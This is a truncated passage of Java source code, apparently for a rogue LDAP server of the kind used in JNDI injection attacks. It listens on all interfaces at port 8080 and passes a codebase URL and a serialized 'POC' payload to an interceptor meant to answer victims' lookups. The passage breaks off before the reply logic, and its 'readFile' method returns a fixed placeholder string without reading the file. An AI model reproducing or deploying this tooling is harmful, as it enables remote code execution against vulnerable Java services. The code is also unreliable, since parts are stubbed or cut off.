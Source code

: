 ```
package summersec.ldap;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;
import java.io.FileInputStream;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public LdapServer() {
    }

    public static String readFile(String filePath) throws Exception {
        String result = "ser.payload";
        return result;
    }

    public static void main(String[] args) throws Exception {
        String url = "http://127.0.0.1/#T";
        String ports = "8080";
        int port = 8080;
        String file = "1.ser";
        String POC = readFile(file);


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(new String[]{"dc=example,dc=com"});
            config.setListenerConfigs(new InMemoryListenerConfig[]{new InMemoryListenerConfig("listen", InetAddress.getByName("0.0.0.0"), port, ServerSocketFactory.getDefault(), SocketFactory.getDefault(), (SSLSocketFactory)SSLSocketFactory.getDefault())});
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url), POC));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();
        } catch (Exception var8) {
            var8.printStackTrace();
        }

    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;
        private String POC;

        public OperationInterceptor(URL cb, String POC) {
            this.codebase = cb;
            this.POC = POC;
```